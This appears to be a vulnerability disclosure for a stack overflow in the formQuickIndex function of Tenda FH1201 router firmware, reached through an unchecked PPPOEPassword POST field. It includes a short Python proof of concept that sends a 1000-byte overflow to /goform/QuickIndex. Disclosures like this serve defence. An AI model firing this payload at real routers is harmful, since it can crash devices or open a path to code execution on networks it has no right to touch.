



# formQuickIndex

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the formQuickIndex function.The v6 variable receives the PPPOEPassword parameter from a POST request and  and passes it to the decodePwd function. 



Within decodePwd , the v6 variable is later assigned to the v8  variable.  There is no size check, so the user-provided v6 can exceed the allocated size of the v8 array The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.



### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/QuickIndex"

payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```



